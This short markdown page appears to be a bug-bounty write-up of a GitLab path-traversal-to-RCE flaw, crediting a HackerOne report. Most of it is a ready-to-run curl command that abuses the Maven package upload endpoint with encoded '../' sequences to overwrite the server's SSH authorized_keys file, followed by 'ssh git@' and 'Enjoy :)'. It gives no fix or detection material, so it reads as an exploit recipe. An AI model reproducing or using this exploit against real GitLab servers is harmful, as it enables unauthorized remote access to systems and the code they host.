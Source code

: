 # ***Path traversal to RCE worth $12000 on GitLab 😳***

### *1. Create project and private token*
### *2. Send the following request*
```
curl -H "Private-Token: $token" http://10.26.0.5/api/v4/projects/2/packages/maven/a%2fb%2fc%2fd%2fe%2ff%2fg%2fh%2fi%2f1/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f.ssh%2fauthorized_keys -XPUT --path-as-is --data-binary @/home/asakawa/.ssh/id_rsa.pub
```
### *3. $ ssh git@10.26.0.5*
### *4. Enjoy :)*
![20220831-1.png](../../images/20220831-1.png)
</br>&nbsp;

----
## ***Credit***
Based on [saltyyolk](https://hackerone.com/reports/733072)'s report.

----
## ***Support***
You can Follow [me](https://www.linkedin.com/in/bhavesh-pardhi-/) on LinkedIn or
<br><br>[![Buy Me a Coffee](https://img.shields.io/badge/Buy%20Me%20a%20Coffee-Support-orange?style=for-the-badge&logo=buy-me-a-coffee)](https://www.buymeacoffee.com/bhaveshpardhi)
